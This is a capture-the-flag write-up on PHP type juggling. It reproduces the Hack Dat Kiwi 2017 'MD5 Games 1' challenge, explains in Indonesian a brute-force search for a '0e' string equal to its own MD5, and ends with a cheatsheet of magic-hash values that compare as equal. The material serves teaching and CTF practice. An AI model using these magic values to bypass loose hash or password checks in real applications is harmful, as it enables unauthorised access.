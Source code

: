 # PHP Type Juggling
**Type Juggling** is the name given by the PHP developers to the "feature" in PHP that allows a programmer to silently substitute values of one type in situations where values of another type would make more sense.
* https://www.quora.com/What-is-type-juggling-on-PHP

## MD5 and SHA1 Collision (Magic Hashes)
* https://en.wikipedia.org/wiki/MD5#Collision_vulnerabilities
* https://security.googleblog.com/2017/02/announcing-first-sha1-collision.html

## Hack Dat Kiwi 2017 - MD5 Games 1
```php
<?php
if (isset($_GET['src']))
    highlight_file(__FILE__) and die();
if (isset($_GET['md5']))
{
    $md5=$_GET['md5'];
    if ($md5==md5($md5))
        echo "Wonderbubulous! Flag is ".require __DIR__."/flag.php";
    else
        echo "Nah... '",htmlspecialchars($md5),"' not the same as ",md5($md5);
}
?>
```

(```Indonesian mode ON```)

Disini kita mengambil inti dari kode tersebut yaitu ```$md5 == md5($md5)``` hmm... bruteforce?? panjang maksimal dari md5 sendiri yaitu ```32 hex digits``` dan kita akan melakukan ```2^128``` (32 x 4bit) percobaan :scream:, misal menggunakan header **0e** untuk 2digit awalan md5, karna 0e{....} == 0 (true). Mari kita buat payload sederhana untuk mebandingkan ```str == md5(str)```.

```php
<?php
list($stat, $md5) = [true, 1];
while ($stat) {
    $chall = function () use ($md5) {
        return "0e{$md5}" == md5("0e{$md5}");
    };
    print "[0e{$md5}] => NOT FOUND" . PHP_EOL;
    ($chall() ? $stat = false : $md5++);
}
print "[0e{$md5}] => FOUND" . PHP_EOL;
```

<img src="https://user-images.githubusercontent.com/13828056/39365080-5c24c364-4a5a-11e8-9025-8ae07a1ddf51.png" width="60%"></img>

GOTCHAAA.. maka penyelesaian dari chall diatas ```str == md5(str)``` dapat diselesaikan dengan **215962017** :tada::tada::tada:


## BONUS :laughing:
```php
<?php
$str = "0e100132199235687421930375421091";
var_dump((int) $str == md5(urldecode("%02%a27%84"))); // true
var_dump($str == md5("\x0e\xd7\xb6\xea")); // true
```

## Cheatsheet Type Juggling
| Magic Number or String | Comparison Operators | Magic Number or String |
| :--------------------: | :------------------: | :--------------------: |
| md5('240610708') | == | md5('QNKCDZO') |
| md5('aabg7XSs') | == | md5('aabC9RqS') |
| sha1('aaroZmOk') | == | sha1('aaK1STfY') |
| sha1('aaO8zKZF') | == | sha1('aa3OFF9m') |
| 0010e2 | == | 1e3 |

0e